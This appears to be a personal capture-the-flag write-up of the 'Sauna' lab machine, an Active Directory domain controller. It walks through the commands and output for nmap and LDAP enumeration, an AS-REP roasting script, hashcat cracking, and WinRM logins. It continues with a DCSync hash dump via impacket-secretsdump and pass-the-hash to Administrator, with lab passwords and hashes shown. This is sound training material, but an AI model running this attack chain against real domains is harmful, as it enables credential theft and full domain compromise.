


Discovery
Nmap
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-18 02:09:51Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49677/tcp open msrpc Microsoft Windows RPC
49689/tcp open msrpc Microsoft Windows RPC
49697/tcp open msrpc Microsoft Windows RPC
Host script results:
| smb2-time:
| date: 2023-08-18T02:10:48
|_ start_date: N/A
|_clock-skew: 7h00m03s
| smb2-security-mode:
| 311:
|_ Message signing enabled and required
TRACEROUTE (using port 139/tcp)
HOP RTT ADDRESS
1 28.05 ms 10.10.14.1
2 34.41 ms 10.10.10.175Nessus
Medium: Microsoft Windows EFSRPC NTLM Reflection Elevation of Privilege (PetitPotam) (Remote)
Description
The remote host is affected by an NTLM reflection elevation of privilege vulnerability known as 'PetitPotam'. An unauthenticated, remote attacker can exploit this, by sending a specially-crafted EFSRPC request, to cause the affected host to connect to a malicious server. An attacker can then utilize an NTLM relay to impersonate the target host and authenticate against remote services.One attack scenario, described within KB5005413, uses this exploit to initiate an NTLM session as a domain controller's machine account. This session is then relayed to an Active Directory Certificate Services (AD CS) host to obtain a certificate. This certificate could be then used to move laterally within the domain environment.
See Also
https://github.com/topotam/PetitPotamhttps://kb.cert.org/vuls/id/405600https://msrc.microsoft.com/update-guide/vulnerability/ADV210003http://www.nessus.org/u?d0ab9e93CVE
CVE-2021-36942
Enumeration
ldap
- Base search
ldapsearch -H ldap://10.10.10.175 -x -s base '' "(objectClass=*)" "*" +output
rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL ldapServiceName: EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL isGlobalCatalogReady: TRUE supportedSASLMechanisms: GSSAPI supportedSASLMechanisms: GSS-SPNEGO supportedSASLMechanisms: EXTERNAL supportedSASLMechanisms: DIGEST-MD5 supportedLDAPVersion: 3 supportedLDAPVersion: 2 ... subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK ,DC=LOCAL serverName: CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configu ration,DC=EGOTISTICAL-BANK,DC=LOCAL schemaNamingContext: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL namingContexts: DC=EGOTISTICAL-BANK,DC=LOCAL namingContexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL namingContexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL namingContexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL namingContexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL isSynchronized: TRUE highestCommittedUSN: 98421 dsServiceName: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL dnsHostName: SAUNA.EGOTISTICAL-BANK.LOCAL defaultNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL currentTime: 20230818021851.0Z configurationNamingContext: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL - Null bind
ldapsearch -H ldap://10.10.10.175 -x -b DC=EGOTISTICAL-BANK,DC=local→ worksoutput
# EGOTISTICAL-BANK.LOCAL dn: DC=EGOTISTICAL-BANK,DC=LOCAL objectClass: top objectClass: domain objectClass: domainDNS distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL instanceType: 5 whenCreated: 20200123054425.0Z whenChanged: 20230817162954.0Z subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL uSNCreated: 4099 dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A== uSNChanged: 98336 name: EGOTISTICAL-BANK objectGUID:: 7AZOUMEioUOTwM9IB/gzYw== replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAAHc7 hoDAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA== creationTime: 133367633945584556 forceLogoff: -9223372036854775808 lockoutDuration: -18000000000 lockOutObservationWindow: -18000000000 lockoutThreshold: 0 maxPwdAge: -36288000000000 minPwdAge: -864000000000 minPwdLength: 7 modifiedCountAtLastProm: 0 nextRid: 1000 pwdProperties: 1 pwdHistoryLength: 24 objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG serverState: 1 uASCompat: 1 modifiedCount: 1 auditingPolicy:: AAE= nTMixedDomain: 0 rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL systemFlags: -1946157056 wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT ISTICAL-BANK,DC=LOCAL wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra m Data,DC=EGOTISTICAL-BANK,DC=LOCAL wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO TISTICAL-BANK,DC=LOCAL wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin cipals,DC=EGOTISTICAL-BANK,DC=LOCAL wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC= EGOTISTICAL-BANK,DC=LOCAL wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E GOTISTICAL-BANK,DC=LOCAL wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO TISTICAL-BANK,DC=LOCAL wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC AL-BANK,DC=LOCAL wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers, DC=EGOTISTICAL-BANK,DC=LOCAL wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS TICAL-BANK,DC=LOCAL wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA L-BANK,DC=LOCAL objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D C=LOCAL isCriticalSystemObject: TRUE gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste m,DC=EGOTISTICAL-BANK,DC=LOCAL;0] dSCorePropagationData: 16010101000000.0Z otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS TICAL-BANK,DC=LOCAL otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL ms-DS-MachineAccountQuota: 10 msDS-Behavior-Version: 7 msDS-PerUserTrustQuota: 1 msDS-AllUsersTrustQuota: 1000 msDS-PerUserTrustTombstonesQuota: 10 msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL msDS-NcType: 0 msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE dc: EGOTISTICAL-BANK # Users, EGOTISTICAL-BANK.LOCAL dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL # Computers, EGOTISTICAL-BANK.LOCAL dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL # Domain Controllers, EGOTISTICAL-BANK.LOCAL dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL # System, EGOTISTICAL-BANK.LOCAL dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL # LostAndFound, EGOTISTICAL-BANK.LOCAL dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL # Infrastructure, EGOTISTICAL-BANK.LOCAL dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL # ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL # Program Data, EGOTISTICAL-BANK.LOCAL dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL # NTDS Quotas, EGOTISTICAL-BANK.LOCAL dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL # Managed Service Accounts, EGOTISTICAL-BANK.LOCAL dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL # Keys, EGOTISTICAL-BANK.LOCAL dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL # TPM Devices, EGOTISTICAL-BANK.LOCAL dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL # Builtin, EGOTISTICAL-BANK.LOCAL dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL # Hugo Smith, EGOTISTICAL-BANK.LOCAL dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL # search reference ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST ICAL-BANK,DC=LOCAL # search reference ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST ICAL-BANK,DC=LOCAL # search reference ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC AL - Enumerate users
ldapsearch -H ldap://10.10.10.175 -x -b CN=Users,DC=EGOTISTICAL-BANK,DC=local → no results
output
# extended LDIF
#
# LDAPv3
# base <CN=Users,DC=EGOTISTICAL-BANK,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
# search result
search: 2
result: 0 Success
# numResponses: 2
# numEntries: 1smb
http - company website

- some usernames
- made a file with possible usernames using https://github.com/urbanadventurer/username-anarchy
./username-anarchy -i ../users.txt
content
fergus
fergussmith
fergus.smith
fergussm
fergsmit
ferguss
f.smith
fsmith
sfergus
s.fergus
smithf
smith
smith.f
smith.fergus
fs
shaun
shauncoins
shaun.coins
shauncoi
shaucoin
shaunc
s.coins
scoins
cshaun
c.shaun
coinss
coins
coins.s
coins.shaun
sc
hugo
hugobear
hugo.bear
hugob
h.bear
hbear
bhugo
b.hugo
bearh
bear
bear.h
bear.hugo
hb
steven
stevenkerb
steven.kerb
stevenke
stevkerb
stevenk
s.kerb
skerb
ksteven
k.steven
kerbs
kerb
kerb.s
kerb.steven
sk
bowie
bowietaylor
bowie.taylor
bowietay
bowitayl
bowiet
b.taylor
btaylor
tbowie
t.bowie
taylorb
taylor
taylor.b
taylor.bowie
bt
sophie
sophiedriver
sophie.driver
sophiedr
sophdriv
sophied
s.driver
sdriver
dsophie
d.sophie
drivers
driver
driver.s
driver.sophie
sdAS-REP roasting
- Check for users with no Kerberos pre-auth enabled
Made a small script to iterate over the usernames:
#!/bin/bash
# Replace this with the actual IP address of the domain controller
dc_ip="10.10.10.175"
domain="EGOTISTICAL-BANK.local"
while IFS= read -r username; do
if [[ -n "$username" ]]; then
command="impacket-GetNPUsers ${domain}/${username} -no-pass -dc-ip ${dc_ip}"
echo "Executing: $command"
eval "$command"
fi
done < users.txtAS-REP roastable user found (EGOTISTICAL-BANK.LOCAL\fsmith)
Executing: impacket-GetNPUsers EGOTISTICAL-BANK.local/fsmith -no-pass -dc-ip 10.10.10.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:e2db503de2b4f11f0ec37fe5b19e6fa6$efbe79b4b76da935795999c9f93aab6c17ff292e5e6ab4ffcfab9afd08f7a25424e6865e7eb79507ca036fd91cdd5757c06c610d9309e0041edc82dcb79b9765bc035f47eb57c0fc19839f4be0addbe5a90abca0dcb44551d0e5b0d2ff95e45b6fef628aee015a88574ca4234a47e19106bbdc80ba3a464abd15d08e1704599e10a11cde4da5763a66ec0f8fe30dcf2c5c163b12955db2b3a20e6a242eb2275c25f72dc5dff446ea79d15af3e273effae912aebce0f25bbedc3f9e2fe7469c8134ea77839aca1f6e7df0d2f0b830a98762cf67e15ef78d00241281c3261a40a87e72b68dea4e993908133306745772492a60b05e30c633f8797ba27fcc3cc8fecracking fsmith with hashcat
For some reason hashcat works a lot faster in kali linux then on my host (when using my rtx 2060)
hashcat -m18200 '$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:e2db503de2b4f11f0ec37fe5b19e6fa6$efbe79b4b76da935795999c9f93aab6c17ff292e5e6ab4ffcfab9afd08f7a25424e6865e7eb79507ca036fd91cdd5757c06c610d9309e0041edc82dcb79b9765bc035f47eb57c0fc19839f4be0addbe5a90abca0dcb44551d0e5b0d2ff95e45b6fef628aee015a88574ca4234a47e19106bbdc80ba3a464abd15d08e1704599e10a11cde4da5763a66ec0f8fe30dcf2c5c163b12955db2b3a20e6a242eb2275c25f72dc5dff446ea79d15af3e273effae912aebce0f25bbedc3f9e2fe7469c8134ea77839aca1f6e7df0d2f0b830a98762cf67e15ef78d00241281c3261a40a87e72b68dea4e993908133306745772492a60b05e30c633f8797ba27fcc3cc8fe' /usr/share/wordlists/rockyou.txt --force→ fsmith:Thestrokes23
Getting access
crackmapexec:
crackmapexec winrm 10.10.10.175 -u fsmith -p Thestrokes23
WINRM 10.10.10.175 5985 SAUNA [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)evil-winrm:
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'Flag (C:\Users\FSmith\Desktop) → 79ca414be4feba7c56b5aafec766f0c7
beacon:
- generate shellcode with sliver
- pack with nimpackt to dll
- upload to victim using python http server
Priv escalation
- Winpeas:
[+] Looking for common SAM & SYSTEM backups C:\Windows\System32\config\RegBack\SAM C:\Windows\System32\config\RegBack\SYSTEM [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe AppCmd.exe was found in C:\Windows\system32\inetsrv\appcmd.exe You should try to search for credentials [+] Checking for DPAPI Master Keys [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi MasterKey: C:\Users\FSmith\AppData\Roaming\Microsoft\Protect\S-1-5-21-2966785786-3096785034-1186376766-1105\ca6bc5b5-57d3-4f19-9f5a-3016d1e57c8f Accessed: 1/24/2020 6:30:19 AM Modified: 1/24/2020 6:30:19 AM [+] Looking for AutoLogon credentials Some AutoLogon credentials were found!! DefaultDomainName : EGOTISTICALBANK DefaultUserName : EGOTISTICALBANK\svc_loanmanager DefaultPassword : Moneymakestheworldgoround! [+] Current Token privileges [?] Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLEDAutologin creds → EGOTISTICALBANK\svc_loanmanager:Moneymakestheworldgoround!
- Crackmapexec (can’t access?)
┌──(kali㉿kali)-[~/Desktop] └─$ crackmapexec winrm 10.10.10.175 -u 'svc_loanmanager' -p 'Moneymakestheworldgoround!' WINRM 10.10.10.175 5985 SAUNA [-] EGOTISTICAL-BANK.LOCAL\svc_loanmanager:Moneymakestheworldgoround! - crackmapexec (with local username)
# when looking to C:\Users Mode LastWriteTime Length Name ---- ------------- ------ ---- d----- 1/25/2020 1:05 PM Administrator d----- 1/23/2020 9:52 AM FSmith d-r--- 1/22/2020 9:32 PM Public d----- 1/24/2020 4:05 PM svc_loanmgr # crackmapexec ┌──(kali㉿kali)-[~/Desktop] └─$ crackmapexec winrm 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' WINRM 10.10.10.175 5985 SAUNA [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:Moneymakestheworldgoround! (Pwn3d!) - winrm
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!' - Bloodhound

- DCSync attack using impacket
impacket-secretsdump -outputfile 'outpDcSync' EGOTISTICAL-BANK.LOCAL/SVC_LOANMGR:'Moneymakestheworldgoround!'@10.10.10.175 # output [*] Using the DRSUAPI method to get NTDS.DIT secrets Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c::: EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd::: EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd::: EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c::: SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:633af2429677e7664fcf19ca2dc7e790::: [*] Kerberos keys grabbed Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657 Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e Administrator:des-cbc-md5:fb8f321c64cea87f krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24 krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9 krbtgt:des-cbc-md5:c170d5dc3edfc1d9 EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324 EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9 EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7 EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2 EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2 SAUNA$:aes256-cts-hmac-sha1-96:0bf8b511ba60f8d6411a4566b46388e904cb8bd13a5a3544480776f2d32dfc00 SAUNA$:aes128-cts-hmac-sha1-96:280f6a6cb24b4f5b76ee490048d34945 SAUNA$:des-cbc-md5:104c515b86739e08Administrator:823452073d75b9d1cf70ebdf86c7f98e
- Crackmapexec using PTH
┌──(kali㉿kali)-[~/Desktop] └─$ crackmapexec winrm 10.10.10.175 -u 'Administrator' -H '823452073d75b9d1cf70ebdf86c7f98e' WINRM 10.10.10.175 5985 SAUNA [+] EGOTISTICAL-BANK.LOCAL\Administrator:823452073d75b9d1cf70ebdf86c7f98e (Pwn3d!) - Winrm
evil-winrm -i 10.10.10.175 -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
# Flag
Directory: C:\Users\Administrator\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 8/20/2023 8:24 PM 34 root.txt89b018c19497be9e3011c32e6e1e3a32